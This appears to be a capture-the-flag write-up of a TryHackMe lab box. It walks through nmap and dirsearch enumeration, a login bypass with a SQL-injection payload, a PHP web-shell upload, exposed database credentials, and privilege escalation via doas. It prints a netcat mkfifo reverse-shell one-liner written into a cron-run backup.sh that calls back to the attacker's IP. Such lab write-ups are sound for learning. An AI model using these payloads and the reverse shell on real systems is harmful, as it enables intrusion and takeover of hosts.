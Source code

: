 ```yaml
---
title: First Post
date: 2025-09-27 15:00:00 +/-0000
categories: [THM]
tags: [enumeration]
image: https://tryhackme-images.s3.amazonaws.com/room-icons/6187c9220cd0ff0c5c3b29b9aa6252ea.png
---
```


After running nmap scan on the target, I got:

`nmap -A 10.10.194.9`

```bash
Nmap scan report for 10.10.194.9
Host is up (0.025s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a3:6a:9c:b1:12:60:b2:72:13:09:84:cc:38:73:44:4f (RSA)
|   256 b9:3f:84:00:f4:d1:fd:c8:e7:8d:98:03:38:74:a1:4d (ECDSA)
|_  256 d0:86:51:60:69:46:b2:e1:39:43:90:97:a6:af:96:93 (ED25519)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
445/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)

```

Upon visiting port `80/HTTP`, I got an apache server default page:

![thm-plotted-tms-home.png](assets/img/posts/thm-plotted-tms-home.png)
_Default Apache Server Page_

Then I decided to enumerate other pages on the webapp by using `dirsearch`:

`dirsearch -u http://10.10.194.9/`

```bash
[12:14:54] 200 -  452B  - /admin/
[12:15:19] 200 -   25B  - /passwd
```

The `/admin/` page had open directory enabled, and there was a file named `id_rsa`, which immediately made me think about the ssh port I had seen earlier on nmap.

However, it later turned out to be a base64 encoding of the text `Trust me it is not this easy..now get back to enumeration :D` 😂

The `/passwd` route returned a base64 encoded text, which decoded as `not this easy :D` 😆

I then ran dirsearch on port `445`:

`dirsearch -u http://10.10.194.9:445/`

```bash
[12:23:28] 200 -    4KB - /management/
```
Upon visiting the `/management/` route, I was greeted with a login page.

I tried a few SQLi payloads and `' or '1'='1'#` worked. I was then on the dashboard. 

Then I went onto the profile management page, and uploaded a php shell, and I was in. 

Upon visiting `initialize.php`, I saw database credentials:

```php
<?php
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');
if(!defined('base_url')) define('base_url','/management/');
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"tms_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"Password@123");
if(!defined('DB_NAME')) define('DB_NAME',"tms_db");
?>
```

I used the credentials to explore the database, and found a users table which has 2 hashed passwords:

![thm-plotted-tms-hashes.png](assets/img/posts/thm-plotted-tms-hashes.png)
_Hashes.com lookup results_

I tried to use these credentials to my benefit, however, they didn't work anywhere. 

After a bit of exploring, I found that there was `user.txt` in user `plot_admin`'s home directory. 

Later, I found a `backup.sh` file in `/var/www/scripts`, and I could edit it. 

```bash
www-data@plotted:/var/www/scripts$ rm -rf backup.sh
rm -rf backup.sh
www-data@plotted:/var/www/scripts$
www-data@plotted:/var/www/scripts$ ls
ls

www-data@plotted:/var/www/scripts$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.23.39.101 4445 >/tmp/f" > backup.sh
<h -i 2>&1|nc 10.23.39.101 4445 >/tmp/f" > backup.sh
www-data@plotted:/var/www/scripts$ cat backup.sh
cat backup.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.23.39.101 4445 >/tmp/f
www-data@plotted:/var/www/scripts$
www-data@plotted:/var/www/scripts$ chmod +x backup.sh
chmod +x backup.sh
www-data@plotted:/var/www/scripts$ date
date
Sat Sep 27 12:44:03 UTC 2025
www-data@plotted:/var/www/scripts$
```

After listening on the other shell and sending the `date` command, I got the response from the server and got access to the `plot_admin` admin account. I then cat'd the user.txt flag.

To get root.txt, I just used basic privesc techniques, and realised I could run `doas` as root, and I used [GTFOBins](https://gtfobins.github.io/) guide to echo root.txt file. 